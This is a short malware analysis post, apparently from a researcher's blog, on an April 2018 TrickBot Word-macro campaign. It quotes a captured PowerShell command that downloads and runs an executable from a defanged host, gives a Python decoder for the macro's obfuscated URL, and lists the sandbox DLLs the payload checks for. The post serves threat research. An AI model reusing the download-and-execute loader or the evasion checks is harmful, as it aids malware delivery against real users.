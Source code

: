 ```yaml
---
layout: post
title:  "TrickBot & UACME"
date:   2018-04-16 10:31:12 -0600
categories: malware
---
```



# TrickBot Secure Message Delivery 12apr2018
Doc delivery: 3782f96c6d9f3136651da208465fa939313b7e4f21bdc4ef10c05926e0428a65

```
'"" | Out-File -encoding ASCII -FilePath %TEMP%\bpknnhvxb_cx.bat;Start-Process '%TEMP%\bpknnhvxb_cx.bat' -WindowStyle Hidden" (PID: 3320)
cmd.exe /c ""%TEMP%\bpknnhvxb_cx.bat" " (PID: 4568)
powershell.exe PowerShell "function ggft([String] $uibzkllsrb5)
{(New-Object System.Net.WebClient).DownloadFile($uibzkllsrb5,'%TEMP%\sethasn2.exe');Start-Process '%TEMP%\sethasn2.exe';}


m-tensou[.]net/svoren.png - 2153be5c6f73f4816d90809febf4122a7b065cbfddaa4e2bf5935277341af34c
```

Macro uses a custom string lookup
```
VBA FORM STRING IN '3782f96c6d9f3136651da208465fa939313b.doc' - OLE stream: u'Macros/wordapollo/o'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
qwertyuiop[]asdfghjkl;zxcvbnm,./QWERTYUIOP{}ASDFGHJKL:"ZXCVBNM<>?!@#$%^&*()\1234567890 -|'
```


```python
k = """qwertyuiop[]asdfghjkl;zxcvbnm,./QWERTYUIOP{}ASDFGHJKL:"ZXCVBNM<>?!@#$%^&*()\1234567890 -|'"""
blah = 'Qwou/ha[E/uoRh,aiu/Es/l'
out = ""
for i in range(len(blah)):
  temp = k.index(blah[i])
  out += k[(temp-4)%len(k)]
print(out)
```

    m-tensou.net/svoren.png


# Trick payload
2153be5c6f73f4816d90809febf4122a7b065cbfddaa4e2bf5935277341af34c
Sample has multiple internal layers on the crypter along with a function decoding layer that decodes out each individual function as it needs it.

Checks for the prescence of the following DLLs by parsing them from the PEB
* pstorec.dll
* vmcheck.dll
* dbghelp.dll
* wpespy.dll
* api_log.dll
* SbieDll.dll
* SxIn.dll
* dir_watch.dll
* Sf2.dll
* cmdvrt32.dll
* snxhk.dll 
